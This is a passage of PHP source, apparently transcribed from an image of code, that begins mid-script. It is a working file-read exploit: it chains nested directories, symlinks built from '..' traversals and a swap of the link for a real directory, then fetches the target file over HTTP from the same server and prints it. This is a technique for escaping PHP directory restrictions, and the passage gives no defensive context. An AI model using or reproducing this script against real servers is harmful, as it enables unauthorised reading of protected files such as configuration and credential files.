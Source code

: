 ```php
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
```